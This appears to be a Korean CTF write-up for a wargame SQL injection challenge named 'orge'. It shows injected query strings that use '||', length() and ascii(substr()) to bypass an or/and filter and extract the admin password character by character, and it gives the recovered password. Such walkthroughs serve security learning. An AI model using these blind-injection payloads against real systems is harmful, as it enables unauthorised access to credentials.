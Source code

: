 ## Q7. orge _ Q4 + Q6
<img src="/photo/prob_07.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: or / and <br> 문제 사항: admin의 패스워드를 찾아라.
### 해결책

```
패스워드를 찾아야 하는 문제이므로 먼저, 길이를 찾음
=> length()함수를 사용
=> 반복 작업을 해야하므로 파이썬 코드를 이용함
```
```diff
# 현재 쿼리문: where id='guest' and pw='' || length(pw)=8-- '
```
<참고> Python 코드 : [패스워드 길이 탐색](code/07_pwlength.py)
```
패스워드 길이가 8인 것을 찾아냄
이제 패스워드를 한글자씩 찾아봄
=> substr()함수를 사용
=> 반복 작업을 해야하므로 파이썬 코드를 이용함
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||ascii(substr(pw,1,1))=55-- '
```
<참고> Python 코드 : [패스워드 문자 탐색](code/07_pw.py)
```
해결 쿼리문: where id='guest' and pw='7b751aec'
```
### CERT <br> Python 코드 : [패스워드 길이 탐색](code/07_pwlength.py) / [패스워드 문자 탐색](code/07_pw.py)
